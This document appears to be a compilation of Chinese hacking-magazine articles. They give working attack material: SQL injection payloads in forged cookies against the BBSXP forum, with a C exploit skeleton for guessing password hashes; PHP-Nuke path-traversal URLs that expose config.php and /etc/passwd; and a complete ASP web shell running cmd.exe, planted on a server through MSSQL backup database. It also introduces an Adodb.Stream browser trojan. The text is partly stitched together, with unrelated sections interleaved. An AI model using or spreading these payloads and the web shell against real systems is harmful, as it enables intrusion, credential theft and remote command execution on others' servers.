刚才的直觉看来是对的，order 在几乎没有经过任何处理的情况下就被用作了构造 SQL 语句的参数，这无疑是一个注入点。但是 select 语句的文法决定了这个在 ACCESS 下面没有什么好的利用方法。如果对方是 MSSQL 的话，很容易就可以利用了。

好了，usertop.asp 差不多就是这么些东西，其中有两个比较明显的 SQL Injection，没有跨站的问题，也没有其他的逻辑问题。最后面的一个漏洞利用方法抛开不提，前面的那个 Cookie 造成的 Injection 利用，还需要进一步研究。

下面就 Cookie 来说一下猜测的问题。倘若对方用的是 MSSQL，问题就变得简单；而如果是 Access，用 Injection 来猜测对方密码之类表的内容的时候，还涉及到要有效的判定。再把 setup.asp 翻回来，看看有没有可以用来判定的。

```
on error resume next
'找不到资料时忽略错误
if Request.Cookies("userpass")<>rs("userpass") then
    Response.Cookies("username")=""
```

这是 79 和 80 行的代码。粗一看因为 79 行的存在，判定似乎变得有点困难，但 80 行又让我们看到了一丝曙光：如果正确的话，两行都被忽略了；而如果出错了，`Response.Cookies("username")=""` 会起作用。换句话说，如果在对密码进行猜测的时候有点错，cookie 中的 username 会被清除掉。

先拿出 iecv 来，按照一般的方式对 BBSXP 进行一下测试。先在 BBSXP 上注册一个合法的用户名，登录的时候选择记住密码，这样浏览器就能帮我们提交保存有用户名和密码的 Cookie 了。打开 iecv，找到这个网站，改一下 Cookie 中的 username，测试几种情况。

- （1）username 改为 admin'，存盘后另外开一个 IE 窗口，请求 HTTP://www.xxxx.com/bbs/usertop.asp。这里要说明一下，如果就是在同一个窗口反复刷新的话得不到我们预期的结果，因为对于一个连接，IE 反复提交的 Cookie 是不会改变的，除非网站主动来要求改变当前的 Cookie，所以一定要另外开一个窗口。提交的结果是：

```
Microsoft OLE DB Provider for SQL Server 错误 '80040e14'
字符串 'admin' 之前有未闭合的引号。
/setup.asp, 行 78
```

标准的出错信息。到了这一步，基本上就可以确定注入的存在，以后就是猜测和判定问题了。

- （2）username 改为 admin' and userpass<>'。按照上面的步骤，另外开一个窗口请求 HTTP://www.xxxx.com/bbs/usertop.asp，结果是在左上角出现了这样的字样：

```
>>欢迎您，admin' and userpass<>'
```

和我们的预期效果是一样的：第一，Cookie 没有任何改变，整个页面顺利地出来；第二，用户名改变了，成了我们自己设定的那个 `admin' and userpass<>'`。顺便说一句，这是猜测为真的情况，因为整条 SQL 语句成为了：

```
select * from [user] where username='admin' and userpass<>'<'
```

返回来的结果包含了记录，而且在 top 子过程中，70 行以后的代码都顺利地执行了。

- （3）username 改为 adminxxxxxxx。按照上面的步骤，另外开一个窗口请求 HTTP://www.xxxx.com/bbs/usertop.asp，结果是在左上角又有了些变化：

```
>>欢迎您，请先登录
```

同样和我们设想的情况一样，Cookie 中的 username 被清空了，而且对于查询：

```
select * from [user] where username='adminxxxxxxx'
```

返回的查询记录是空的，`Response.Cookies("username")=""` 起了作用，最终导致了左上角的“请先登录”字样。不信的话返回到 iecv 中看看，Cookie 中的键 username 已经不见了。

这里我们又发现了一处 BBSXP 的缺陷：察看用户列表的时候，不一定要有一个合法的用户名，我们只要保证 Cookie 中的 username 键不为空就可以了。想必这与 BBSXP 的预期想法是不一致的。遗憾的是这只是一个缺陷，没有很大的利用价值。

下面就是实际的猜测了。按照标准的猜测方法，先来判定一下用户 bigfoot 的存在性（其实从用户列表中我们已经看到这个用户了），理想中的 username 应该是这样的：

```
admin' and 1=(select count(*) from [user] where username='bigfoot') and userpass<>'<'
```

但是当在 iecv 中修改后提交 usertop.asp 的时候，我们会惊奇地发现出现了上面的情况 3！理论上来说这是不可能的，因为我们的每一步分析都完美无缺，推出的结果也不可能错误。毫无疑问，应该出现的情况是 2，但是实际上出现了情况 3。回想中间的步骤，只有两个地方比较可疑：第一，测试的论坛和拿到的代码不一样；第二，我们依赖的 iecv 出了问题。

**脚本小子：** 在 ASP 脚本不断发现存在各种漏洞的同时，利用 PHP 编写出来的系统也同样没有“幸免于难”。PHP 脚本的漏洞丝毫不亚于 ASP 脚本所带来的危害性，很多方面甚至“有过之而无不及”。事实果真如此吗？看了下文，你一定会相信的。

## 玩转 PHP-Nuke 漏洞

文/图 赫芳汉强

“PHP-Nuke”是一个用来架设入口网站的系统，其设计目的是要快速架设起一个类似有会员管理形式、新闻发布形式、讨论区的入口网站（图1）。


目前被广泛使用的“PHP-Nuke 6.5”存在着多个系统漏洞，远程攻击者可能利用这些弱点在受影响的系统上进行非法入侵，某些漏洞目前尚未提供修正补丁或者相关防护措施。并且在网络上有入侵工具可供下载，此工具可利用漏洞来篡改“PHP-Nuke”网站上所发布的信息，让恶意的黑客可以更轻易、快速进行入侵。

`print.php` 文件用于阻止变量 `$sid` 的存在，但其内容是不受限制的，如果内容为 `NULL`，将导致出现缺陷。攻击者通过向目标机器发送下列格式的精心构造的畸形 HTTP 请求，将触发该缺陷：

```text
http://www.target.x/modules.php?name=AvantGo&file=print&sid=
http://www.target.x/modules.php?name=News&file=print&sid=
```

攻击者利用下列格式的 HTTP 请求，能够触发 PHP-Nuke 的 “Forums”（Splatt Forums 3.2）模块中存在的另一个缺陷：

```text
http://www.target.x/modules.php?op=modload&name=Forums&file=attachment&AtchOp=show
```

### 发作症状

- PHP-Nuke 的 `print.php` 文件中存在路径泄露缺陷。`print.php` 文件包含 `News` 和 `AvantGo` 两个模块，`sid` 变量过滤不足会导致问题。
- `Forums` 模块可被构造请求利用。
- `Members_List` 以及 `Your_Account` 模块存在 SQL Injection 漏洞，可以让恶意用户列出站点全部用户名，并可能更改任意用户信息。

通过一系列的其他测试以后，目光集中到了 iecv 的身上。修改后的 Cookie 是否正确地写入了，或者说写入的 Cookie 是否和预期一致，这一点无法肯定；但可以用一个小技巧来判定：先在自己的机器上装 BBSXP，注册登录后用 iecv 修改 Cookie，停止 IIS 用 `nc -l -p 80` 伪装一个服务，再提交 `usertop.asp`，最后得到一个包，是在我自己的机器上得到的：

```text
GET /bbs/usertop.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, ...
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)
Host: localhost
Connection: Keep-Alive
Cookie: ...
username=admin%27+and+1=%28select+count%...
```

```text
%28%29 from+%5Buser%5D+where+username=%27bigfoot%27%29+and+userpass%3C%3E%27
```

哈哈，看到问题了。最后一行的 Cookie 中，`username` 并不是我们预期的，原因是 `=` 直接作为 Cookie 的键值，而本身 `=` 应该是保留的特殊字符。解决方式很简单：注入中不包含 `=`，并将等号替换编码为 `%3D`，用于手工提交，不要用 iecv。

话又说回来，这次的收获可不小，又发现了一个 iecv 的缺陷，就是 `=` 没有编码成 `%3D`。如果不实际去做的话，很难想到 iecv 也会有这么低级的缺陷。

OK，所有的问题都已经解决，剩下的都是体力活儿了。不写 exploit 的话，直接用手工猜还有点慢。写个程序仿造上面的整个报文来伪造 Cookie，然后根据返回来的数据中是否包含“请先登录”来进行判断，很快就可以把 32 位的 MD5 猜出来。接下来是暴力破解还是直接用猜出来的身份登录，就是每个人不同的选择了。对 MSSQL 版本的 BBSXP 来说，上面几个地方都可以直接去插入 `exec` 之类的语句，几乎是一次性地就可以解决问题，得到登录密码（图2）。


图2

“Download”模块存在 SQL Injection 漏洞，可以让恶意使用者输入任意 SQL 语法对数据库进行查询。“Your_Account”模块存在漏洞，可以让恶意使用者发动 Cross-Site Scripting 攻击。目前漏洞还没有任何修补程序或可供设定的防护措施（图3）。

```php
/modules/Your_Account/index.php:
--------------------------------
switch($op){
[...]
case "mailpasswd":
    mail_password($uname,$code);
    break;

case "userinfo":
    userinfo($uname, $bypass, $hid, $url);
    break;

case "login":
    login($uname, $pass);
    break;
[...]
case "saveuser":
    saveuser($uid, $realname, $uname, $email, $femail, $url, $pass, $vpass,
    $bio, $user_avatar, $user_icq, $user_occ, $user_from, $user_intrest,
    $user_sig, $user_aim, $user_yim, $user_msnm, $attach, $newsletter);
    break;
[...]
case "savehome":
    savehome($uid, $uname, $storynum, $ublockon, $ublock, $broadcast,
    $popmeson);
    break;
}
```

图3

### 入侵实例

我们利用上面提到的漏洞做了一个入侵例子，当然这样做的目的是为了验证确实存在该漏洞，而不是去搞破坏。输入：

```text
http://127.0.0.1/admin.php?upload=1&file=config.php&file_name=mytest.txt&wdir=/images/&userfile=config.php&userfile_name=hacked.txt
```

将 PHP-Nuke 的配置文件 `config.php` 复制到 phpnuke 目录下的 `images/mytest.txt`。在浏览器上输入 `http://127.0.0.1/images/mytest.txt`，就可以看到 `config.php` 的内容了，当然包括里面的 SQL 密码等信息。

PHP-Nuke 的漏洞甚至还可以将文件复制到 phpnuke 以外的目录。我们在 Linux 下输入命令 `ls -la` 可以看到图4所示结果。


图4

在浏览器中输入：`http://127.0.0.1/admin.php?upload=1&wdir=/../../../../../../tmp&userfile=/../../../../../../tmp/copyme.txt&userfile_name=/../../../../../../tmp/mytest.txt`，造成的后果是 `mytest.txt` 被复制到 `/tmp` 下面。

通常这时候是先尝试 `passwd`。当希望通过指定不同的文件名来将 `/etc/passwd` 文件拷贝到 `images` 目录下时，提示出错。输入：`http://127.0.0.1/admin.php?upload=1&file=/etc/passwd&file_name=mytest.txt&wdir=/images/&userfile=/etc/passwd&userfile_name=hacked.txt`，浏览器返回结果如下：

```text
Warning: SAFE MODE Restriction in effect. The script whose uid is 180 is not allowed to access /etc/passwd owned by uid 0 in /home/httpdocs/www-edu/admin.php on line 398
```

这样便将 `/etc/passwd` 文件复制到 `images/mytest.txt`，同样可以通过浏览器来看到它。

### 防护措施

- 建议停止使用“PHP-Nuke”。
- 自行修改有漏洞的程序模块，过滤不正常的字符串。
- 如果不能立刻安装补丁或者升级，建议使用 Ulf HarnHammer 提供的第三方补丁以降低威胁，下载地址为：http://downloads.securityfocus.com/vulnerabilities/patches/php-nuke_webmail.zip。
- 及时更新厂商补丁，同时建议使用此系统的用户随时关注厂商主页以获取最新版本，网址为：http://www.phpnuke.org。

## 通过数据库备份巧获 SHELL

**脚本小子：** 获得网站 Shell 的方法比较多，但是通过备份数据库来获得 Shell 应该是种非常不错的想法。或许大家见过在 MySQL 下利用数据库来写文件的例子，那其他环境下呢？本文 N.E.V.E.R 给大家介绍了一种在 MSSQL 下 backup a shell 的方法。

最早想到利用数据库系统来写文件，大约是 MySQL 下面的事情吧。我记得有篇经典文章是讲利用 TCP 反弹结合输入法漏洞入侵的，第一步也是很重要的一步，就是利用了 MySQL 导出表到文件获得了一个 Web 上的 Shell。Access 功能不是那么强大，有注入漏洞的时候也不能直接获得执行任何命令的权限；MSSQL 倒是有很多人详细研究过，执行命令的方法罗列了很多，可是没有了 exec 的权限，能做的还是比较有限。

很多人就在问，MSSQL 下面能不能导出一张表到文件，就像 MySQL 那样子，至少先获得一个低权限的 Shell 来看看。我找来找去也没有找到导出表的命令，只好另想方法。不能导出表，那就只好导出数据库了，效果嘛，大部分情况下还是一样的。

在说明做法前，还是先来看看可以这样做的原因。IIS 在通过 asp.dll 处理 `.asp` 扩展名文件的时候，对 `<%%>` 以外的内容不做任何处理，直接输出。比如拷贝一个 `.exe` 文件到 Web 发布目录，改扩展名为 `.asp` 后在 IE 中请求，返回的结果是文件内容，而不会是 500 服务器内部错误。对于 `<%%>` 括起来的内容，默认按 VBScript 解释执行，若有语法错误才会出现 500。

> **脚本小子：** 这是一个非常重要的特征。这样一来，使我们的数据库中存在很多对我们的 Shell 无用的内容，也不会影响 Shell 的正常使用了。

再来看看在 MSSQL 下使用 `backup database` 的情况。随便导出一个数据库看看，比如 `model`，当然了，这也可以在查询分析器中做：

```sql
backup database model to disk='c:\a.txt'
```

用文本方式打开这个文件。通过上面的分析，我们只要知道默认情况下，如果把这个文件改扩展名为 asp 后，请求时会不会出现问题。于是我们查找是否存在 `<%` 和 `%>`，显然是没有的，也就是说请求会返回文本方式内容。首先是默认导出文件不会导致解释执行时的错误，这是很关键的一步。

剩下的就是把它变为一个 Shell。当然是做一个表进去，表的内容在备份的时候一定会被存储到备份文件中去，我们可以控制表的内容，自然也可以控制备份文件的内容。

到这里可能有人已经想一股脑儿把经典的 ASP Shell 内容写入新建的表然后 `backup database` 了。嗯，还没有那么简单。对于文本类型数据，比如 `text`、`nvarchar` 等，在数据库中可能是 `abc`，但是导出文件中可能变成宽字符形式，成了 `a b c`。这样即使你写的是 `<%`，到备份文件中也可能变成 `< %`，内容被破坏而无法解释执行。

为了避免这种情况，我们创建的表列项应该是二进制形式，比如属性为 `image`。这样在里面添加的内容原来是什么，导出的备份文件中也就是什么，规规矩矩的一点都不会变。

> **脚本小子：** 看来宽字符也是我们不得不注意的一个重要问题。还好，问题总有它可以解决的办法。

到了这里，最后只剩下一个问题了：就算你把 ASP Shell 内容写入新建的二进制表，总不会是单独的一行吧。谁知道同一个表的两行之间，在导出的备份文件中会不会还有别的内容呢？如果是这样，前面一行 `<%` 后的内容倒是可以，中间若有杂乱数据，用 VBScript 方式解释执行几乎肯定会 500 错误。

所以每一行必须是一个完整的 `<%%>`，这样我们才能完全控制 `<%%>` 内的内容，保证能够得到一个正确无误的 ASP Shell。

OK，终于到了实践的部分了。通过上面的分析，应该知道利用 `backup database` 来做一个 Shell 是完全可行的。我们先来改写一下那个利用 FSO 的 ASP Shell，使其能够符合我们的要求：

```asp
<% Dim oScript %>
<% Dim oScriptNet %>
<% Dim oFileSys, oFile %>
<% Dim szCMD, szTempFile %>
```

## 脚本攻击（SCRIPT ATTACK）

```asp
<% Set oScript = Server.CreateObject("WSCRIPT.SHELL") %>
<% Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK") %>
<% Set oFileSys = Server.CreateObject("Scripting.FileSystemObject") %>
<% szCMD = Request.Form("CMD") %>
<% If (szCMD <> "") Then %>
<% szTempFile = "C:\\" & oFileSys.GetTempName() %>
<% Call oScript.Run("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True) %>
<% Set oFile = oFileSys.OpenTextFile(szTempFile, 1, False, 0) %>
<% End If %>
<HTML><BODY><FORM action="<%= Request.ServerVariables("URL") %>" method="POST">
<input type=text name="CMD" size=45 value="<%= szCMD %>"><input type=submit value="Run"></FORM><PRE>
<% If (IsObject(oFile)) Then %>
<% On Error Resume Next %>
<% Response.Write Server.HTMLEncode(oFile.ReadAll) %>
<% oFile.Close %>
<% Call oFileSys.DeleteFile(szTempFile, True) %>
<% End If %>
</BODY></HTML>
```

```sql
insert into cmd(str) values ('<% End If %>');
insert into cmd(str) values ('<HTML><BODY><FORM action="<%= Request.ServerVariables("URL") %>" method=POST>');
insert into cmd(str) values ('<input type=text name="CMD" size=45 value="<%= szCMD %>"><input type=submit value="Run"></FORM><PRE>');
insert into cmd(str) values ('<% If (IsObject(oFile)) Then %>');
insert into cmd(str) values ('<% On Error Resume Next %>');
insert into cmd(str) values ('<% Response.Write Server.HTMLEncode(oFile.ReadAll) %>');
insert into cmd(str) values ('<% oFile.Close %>');
insert into cmd(str) values ('<% Call oFileSys.DeleteFile(szTempFile, True) %>');
insert into cmd(str) values ('<% End If %>');
insert into cmd(str) values ('</BODY></HTML>');
backup database model to disk='c:\\...';
```

然后打开查询分析器，依次输入以下 SQL 查询语句。这些语句的大意就是创建一张表，里面有一个二进制 `image` 类型的列，然后把我们上面改写的那个 Shell 作为内容输进去，最后导出整个数据库到一个 `.asp` 文件，开始！

拷贝 `c:\\.asp` 到你的 Web 发布目录，再用浏览器请求一下，没有 500 错误的话，你已经获得一个 Shell 了。不过这个 Shell 中垃圾数据实在是太多，要多按几下 TAB 键才能到输入命令的输入框。

最后再说说可能出现的问题，一般来说随意选择一个数据库导出，默认情况下里面是不会有“<%”或者“%>”的，但也不排除有这种可能，尽管几率很小。如果以前没有动过 `model`，导出的文件肯定符合要求；但是如果中途写错了些东西，比如创建了一个表，内容有“<%”但是在同一行内没有“%>”出现的话，这个数据库就再也不能用了。

当然，上面只是在查询分析器中的实验。实际情况下，如果能以 sa 的身份注入，通常会比较轻松；只是探测 Web 物理路径时可能会稍微麻烦。若不是 sa 身份，也许 `declare @a sysname, select @a=db_name()` 会有些用处。成功率并不敢说很高，但如果通过这种方法得到 shell，会发现这是一个非常“耐用”的 ASP Shell（尽管会包含不少垃圾数据）。

```sql
use model
create table cmd (str image)
insert into cmd(str) values ('<% Dim oScript %>')
insert into cmd(str) values ('<% Dim oScriptNet %>')
insert into cmd(str) values ('<% Dim oFileSys, oFile %>')
insert into cmd(str) values ('<% Dim szCMD, szTempFile %>')
insert into cmd(str) values ('<% Set oScript = Server.CreateObject("WSCRIPT.SHELL") %>')
insert into cmd(str) values ('<% Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK") %>')
insert into cmd(str) values ('<% Set oFileSys = Server.CreateObject("Scripting.FileSystemObject") %>')
insert into cmd(str) values ('<% szCMD = Request.Form("CMD") %>')
insert into cmd(str) values ('<% If (szCMD <> "") Then %>')
insert into cmd(str) values ('<% szTempFile = "C:\\" & oFileSys.GetTempName() %>')
insert into cmd(str) values ('<% Call oScript.Run("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True) %>')
insert into cmd(str) values ('<% Set oFile = oFileSys.OpenTextFile(szTempFile, 1, False, 0) %>')
```

### 后记

本文通过备份数据库得到了我们想要的 Shell，应该说这是一种非常巧妙的思路。虽然本文例子是在查询分析器中做的实验，但其一样适合我们平时的多种渗透实践。希望大家举一反三，在平时实验中不断尝试不同角度思考问题，也许会找到更巧妙的解决方法。

## BBSXP漏洞浅谈

◎文/起夜家

脚本小子：大家还记得我们上次分析了 BBSXP 的 usertop.asp 和 setup.asp 这两个文件吗？因为这两个东西比较有趣，而且分析起来还有点味道，但如果按照这种例子往下看的趋势继续下去，接下来的就是冗长而又无聊了。为何我们不换一种思考方式呢？今天让脚本小子带你一起去续谈 BBSXP 漏洞吧。

| 项目 | 内容 |
|---|---|
| 适合读者 | 脚本爱好者 |
| 前置知识 | 脚本漏洞常识，BBSXP 的漏洞分析技巧 |
| 难度等级 | 高 |

我想也许漏洞本身不那么重要，借着这个机会学点其他东西可能更好，所以想尝试着换种写法。和上次说的 usertop.asp 一样，usercp.asp 一开始就调用了 top 子过程，这毫无疑问是漏洞。进一步地，这个漏洞有另外的逻辑错误——top 子过程甚至在判断 Cookies 是否合法的前面。这里还有一个两难问题，top 子过程中自己就先判断了 Cookies 的存在性，在外面继续又判断了一次，效率上的问题且不说，不管哪一个起了作用，也不管两个之间顺序如何，结果总有一个是多余的。从这些小的地方就可以看出来，BBSXP 从一开始规划就是不严谨的，而且可能每个开发者仅仅是负责自己的模块，之间也缺乏交流，存在如此多的缺陷也是在情理之中的。

这 3 句话使得后面的几个没有了利用价值。想想我们利用的时候，无非是构造一个特殊的查询条件，如果涉及到跨表的话，所有的 6 个查询都是同为真或者同为假的结果。这样的结果只看第一个就可以了，后面的几句都失去了存在的意义。而如果不涉及到跨表查询的话，看看每一个指定的表名就可以知道，不同的表内部包含的列名是不一样的，执行中必然会因为列不存在而出现查询失败的情况。这种情况下，要是第一句出错，后面的不会执行，利用就失败了；要是后面的出错，只用第一句的结果就可以判断正误，中间的就算没有出错也毫无用处。

### 漫谈漏洞

继续往 usercp.asp 的下面看，还有许多让人迷惑的地方，这里简单地列出来：

```asp
[54] sql="select * from [user] where username='"&Request.Cookies("username")&"'"

[69] '<% conn.execute("Select count(id) from message where incept='"&Request.Cookies("username")&"'")(0)%>
[70] '<% conn.execute("Select count(id) from message where author='"&Request.Cookies("username")&"'")(0)%>

[90] sql="select top 5 author,content,time from message where incept='"&Request.Cookies("username")&"' order by time Desc"

[126] sql="select top 5 * from forum where deltopic<>1 and username='"&Request.Cookies("username")&"' order by lasttime Desc"
```

好像都是漏洞。同一个文件里面有 5 个漏洞，加上前面的那一个，也算是前无古人了。但是有漏洞不见得能够利用，这是亘古不变的真理。细细看一下 setup.asp 中 top 的定义就知道，后面几个东西，都是没有利用价值的，原因是被 setup.asp 中的 top 给挡住了：

```asp
sql="select * from [user] where username='"&Request.Cookies("username")&"'"
rs.Open sql,Conn,1,3
if Request.Cookies("userpass")<>rs("userpass") then
    Response.Cookies("username")=""
```

这样的解释似乎平淡无奇而且逻辑上难懂，要是不太明白的话，可以把 Cookie 中的 username 分别换成 `admin' and left(userpass,1)<>'E` 以及 `admin' and 2>(select count(*) from [user] where left(userpass,1)<>'E') and '1'='1` 来看，心里走一遍这个文件的流程就清楚了。因为前一个漏洞而被“屏蔽”掉的这些漏洞也要好好地收拾起来，以后要是 setup.asp 中的 top 被补上了，说不定作为后备力量的还可以被下一次利用。

继续分析下去。我们伪造 Cookie 可以猜出 md5 后的密码——当然也可以猜其他的，但是其他表里面没有什么有价值的东西，就盯死 User 这张表吧。简单起见，直接加一个查询的列就可以得到密码，这样一来 69 行的那句话一定会出现错误，因为 Message 和 User 两表的字段不一样，出现 500 内部服务错误也是在所难免。不过这并不影响大局，所以也没有关系。

关于猜对猜错的问题，本来也应该是好好讨论一下的，好在上次基本上已经说了。还是上面的 3 句话，如果猜对了就顺利过关显示 500 错误；如果猜错了，Cookie 中的 name 就被置为空。可以想像，我们提交数据后，对方的服务器不可能直接来修改你机器上的文件，所以一定是通过浏览器或者其他的东西来修改的，所以本地也没有很大的必要去打开 Cookie 文件来读，直接判断返回的数据好了。假设你对 HTTP 协议不是很熟悉，可以选择性地抓几个报文来分析，反正就是具有代表性的，比如 Cookie 是一个不存在的用户名，以及一个存在的用户名，多比较几个可以得到结果。这个冗长的过程我就不做了，直接给出一个答案，如果包含 Set-Cookie：username=''，那就是猜对。

### 漏洞利用

简单地分析完漏洞后就该考虑利用。因为 IE Cookie 有小的瑕疵，通过改 Cookie 一次次猜的话，速度上慢不说，单是为了避免屏蔽二次注入就是很困难的，所以最好是尝试用自动化的方法来做：构造利用程序，用 Perl 好像要快一点，不过 C 是老本行，而且喜欢 C 的朋友多一些，我就还是用 C 来写了。

一般的利用注入来猜测表内容的程序大体构造上都一样，就是连接到对方的服务器，向 Web 服务的端口（通常是 80）发出我们精心构造的数据，本质上就是让手工猜测自动化。不过绕开了 IE 这一层而已。一次简单的提交需要包括动作、目标、协议以及其他的数据。最简单的应该是这样：

```http
GET /usercp.asp HTTP/1.1
Host: www.xxxx.com
```

其中 GET 是动作，采用这个动作传递过去的参数都是包含在 URL 中的。紧接着的 /usercp.asp 是要获取的页面地址，后面的 HTTP/1.1 是协议，第二行的 Host: www.xxxx.com 告诉对方网站名。这是一个能获得结果的最简单提交。如果有提交数据的话，在 /usercp.asp 后面可以跟上一个问号，然后加上其他信息。进一步地，包含 Cookie 的提交如下：

```http
GET /usercp.asp HTTP/1.1
Host: www.xxxx.com
Cookie: eremite=0; userpass=F5BB0C8DE146C67B44BABB4E6584CC0
```

Cookie 行表示后面的数据都是 Cookie，不同的 Cookie 用分号隔开，等号前面是名，后面是值。有了上面的提交，服务器端 request.cookie("userpass") 返回的值就是 F5BB0C8DE146C67B44BABB4E6584CC0。为了避免混淆，像“=”“;”这一类字符如果作为值出现的话，应进行编码，方法是用 % 后面加上字符对应的 16 进制 ASCII 码值，常见的空格是 %20，单引号是 %27 等等。特别地，空格还可以用 + 表示，而 + 本身编码后是 %2B。

Cookie 是可以由客户端自主决定的，平时这些由 IE 帮我们管理，要伪造的时候，可以很容易地手工完成。比如我要伪造 Cookie 中的 admin 为 `' and '1'='1`，可以这么提交：

```http
GET /usercp.asp HTTP/1.1
Host: www.xxxx.com
Cookie: eremite=0; admin=%27+and+%271%27%3d%271
```

看起来有点眼花缭乱，但仔细看看 `%27+and+%271%27%3d%271`，其实就是编码后的 `' and '1'='1`。

有了这些知识，就可以写程序了。流程很简单：连接到对方服务器 -> 提交一个完整的请求 -> 判断结果决定是否猜对 -> 断开连接。不断地改变我们的请求，不断地重复上面的步骤就可以获得答案。

为了程序的通用性，还要考虑让用户自主决定攻击的目标，所以让用户提交信息也是必要的。从用户那里，至少要知道目标地址、用户想得到密码的用户名，还有用户自己在上面注册的可用用户名密码。获取信息之后，按照具体的情况加在提交的内容中，这就是一个完整的 exploit 了。先构造一个模板，通常情况下可以抓一个典型的包：

```http
GET /bbs/usercp.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-powerpoint, application/msword, application/vnd.ms-excel, */*
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)
Host: 127.0.0.1
Connection: Keep-Alive
Cookie: eremite=0; userpass=...; username=admin%27+and+1%3d%28select+count%28%2A%29+from+%5Buser%5D+where+username%3d%27victim%27+and+right%28left%28userpass%2C01%29%2C1%29%3d%270%27%29+and+userpass%3C%3E%27
```

还是把 Cookie 中的 username 写出来，否则看起来太难过了：

```sql
admin' and 1=(select count(*) from [user] where username='victim' and right(left(userpass,01),1)='0') and userpass<>''
```

合法的用户名密码肯定是有待提供的，要猜的用户名也不固定，这两个对应的是 username 中的第一个 admin 和第一个 victim。left 函数中的“01”可以自动生成，BBSXP 密码 md5 后有 32 位，所以这里是 01 一直到 32；right 函数外面的“='0'”是猜测的字符，md5 后字符可以是“0123456789ABCDEF”中的任意一个，可以做成一个字典，每次猜测取一个出来用。这样子套上两个循环，花点时间就可以把所有想要的东西跑出来了。

要写出程序，先把固定和变化的东西都分开，待变化的东西可以暂时确定的时候，组合起来发送即可。这里可以是这样子：

```c
char Var1[]="GET ";
char Var2[]="/usercp.asp HTTP/1.1\r\n"
"Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-powerpoint, application/msword, application/vnd.ms-excel, */*\r\n"
"Accept-Language: zh-cn\r\n"
"Accept-Encoding: gzip, deflate\r\n"
"User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)\r\n"
"Host: ";
char Var3[]="...\r\n"
"Connection: Keep-Alive\r\n"
"Cookie: eremite=0; userpass='";
char Var4[]="username='";
char Var5[]="%27+and+(1%3d%28select+count%28%2A%29+from+%5Buser%5D+where+username%3d%27";
char Var6[]="%27+and+right%28left%28userpass%2C";
char Var7[]="%29%2C1%29%3d%27";
char Var8[]="%27%29+and+userpass%3C%3E%27\r\n\r\n";
```

Var1 加上对方 BBS 的相对路径和 Var2 就可以构造出提交请求的前一部分。然后加上对方的域名，接下来加上 Var3，并且加上你的合法用户密码，再加上 Var4 和你的合法用户名，这里就构成了提交请求中 Cookie 的合法部分。Var5 后面要加上待猜测的用户名和 Var6，剩下的 Var6 和 Var7，还有 Var7 和 Var8 之间就是循环所控制的密码位数还有密码的猜测内容。程序很简单，但是贴出来的话还是稍微长了一点，光盘里面附带有，可以去看看，也可以自己改一下。

说到这里，附带一句，既然这一类的东西都有相同的结构，其实只要搭上一个框架，以后写起来就方便多了。

另外一个想法，就是关于构造字符串的问题（这里的构造和前面的意思不太一样，不仅仅是注入内容的构造）。大一点来看，所有的通信与交流都是一系列的字符串，如果能够有比较好的工具可以做到随心所欲地生成想要的字符串并且发送，对漏洞检测和漏洞利用都是非常方便的。当然这只是想法，如果有人能够写出完美的东西来，一定可以得到广泛应用，毕竟现有的工具，比如所谓的通用注入工具还有 Spike 等等，都显得功能不够或根本就太简单。

### 总结成果

最后总体谈谈 BBSXP 吧，它们以前的版本好像还有点防范，最新的这个除了漂亮以外就没有什么可圈可点的地方了。大家写写程序练练手的话可以选择安装一个，应用的话还是动网的好那么一点点（好像也是非常有限的）。写这个东西也是挑最简单的来原理性地说说，不知道有没有玉砸过来 :)

> **编后语：** 除了好久，BBSXP 没有文字浮出水面。为了测试你的 BBSXP 是否存在类似的漏洞，请用我们为你提供的测试程序“BBSxp.cpp”。详细代码请查看光盘“源代码”栏目，按文章名查找即可。

## 被人忽略的 Adodb.Stream

### 网页木马

| 项目 | 内容 |
|---|---|
| 适合读者 | 爱好脚本木马者 |
| 前置知识 | ASP 脚本知识 |
| 难度等级 | 中 |

**脚本小子：** 有关网页木马在杂志上已经反复多次提及，但还有一种网页木马被很多人忽略了，媒体也鲜有提及，网络上也很少见，这就是——Adodb.Stream 网页木马！尽管这匹“小马”在网络上难得一见，但其威力不亚于一匹性格暴烈的烈马！

网页木马有很多种，根据 IE 漏洞的不同制作原理自然也就不一样。前些年最流行的是利用 MIME 漏洞制作的网页木马，Nimda 尼姆达蠕虫病毒是其中的佼佼者；近来网上风行的就是利用 Internet Explorer 的 Object Data 漏洞与 mhtml 文件重定向漏洞所做的网页木马。在网页木马制作方面，Adodb.Stream 漏洞却被人冷落了，网上鲜有利用这个漏洞制作的网页木马。其实，这个漏洞也是非常可怕的……

2003 年 11 月 05 号，www.malware.com 网站发布了一条公告，指出 Microsoft Internet Explorer 5.5 以上版本在处理包含嵌入可执行文件的页面时存在问题，远程攻击者可以利用 Adodb.Stream 对象写本地文件到本地系统，通过构建包含恶意脚本和可执行文件的自执行 HTML 文件，诱使用户访问，可导致任意命令被执行。该网站指出除了 W2k/sp3/sp4 和 XP 外，其他所有 Windows 系统甚至包括 Windows 2003 都受此影响，并给出了一个完整的示例代码。

下面我就给大家简单分析一下代码。详细代码请查看光盘“源代码”栏目，按照文章名查找即可。

这一段代码，我在 W2k/sp3/sp4 情况下本地测试，成功运行了网页木马程序，见到了红红烟火，但在远程测试时，却没有什么好运气了，只打开了系统的记事本。我也将此段代码放在我的冰点极限论坛让会员测试，结果也有极少数人远程测试成功，估计都是 W2k/sp1/sp2 系统了，因为在 98 下正如我代码里注解的一样，默认是没有 Adodb.Stream 对象的；其实远程我们也可以在 W2k/sp3/sp4 下成功的，请继续往下看！

